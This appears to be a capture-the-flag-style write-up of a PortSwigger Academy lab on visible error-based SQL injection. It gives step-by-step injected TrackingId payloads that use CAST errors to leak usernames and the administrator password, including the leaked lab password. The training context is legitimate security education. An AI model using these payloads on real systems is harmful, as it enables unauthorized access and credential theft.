

# Write-up: Visible error-based SQL injection @ PortSwigger Academy


Lab-Link: <https://portswigger.net/web-security/sql-injection/blind/lab-sql-injection-visible-error-based>  
Difficulty: PRACTITIONER



## Exploitation
I started by injection a single quotation mark to see what kind of error I'd be given. I was shown the following:

``` sql
Unterminated string literal started at position 52 in SQL SELECT * FROM tracking WHERE id = 'ysTgHuxpzYrfgxH6''. Expected  char
```

This message gave me the entire SQL query being used. I injected `'--` to get rid of the error.

I wanted to try out the `CAST()` function as this could give me valuable data, so I tried:

`TrackingId=ysTgHuxpzYrfgxH6' AND CAST((SELECT username FROM users) as INT)--`

I was met with the error message:

`Unterminated string literal started at position 95 in SQL SELECT * FROM tracking WHERE id = 'ysTgHuxpzYrfgxH6' AND CAST((SELECT username FROM users) as I'. Expected  char`

This showed me that my injection was being cut short, potentially due to a character limit. I erased the `TrackingId` value to free up some space and tried again. This time I received:

`ERROR: argument of AND must be type boolean, not type integer`

I added `1=` before my `CAST()` statement to make it a boolean, and I sent it through again, receiving:

`ERROR: more than one row returned by a subquery used as an expression`

This error was expected. I added `LIMIT 1` to my `SELECT` statement and tried it again.

`ERROR: invalid input syntax for type integer: "administrator"`

This error gave me crucial information; `administrator` is the first row of the table. Knowing this, I sent a query to expose the password:

`TrackingId=' AND 1=CAST((SELECT password FROM users LIMIT 1) as INT)--`

And it leaked the password:

`ERROR: invalid input syntax for type integer: "sps781mu0d0h6nlc7od9"`

I could then log in to the `administrator` account.


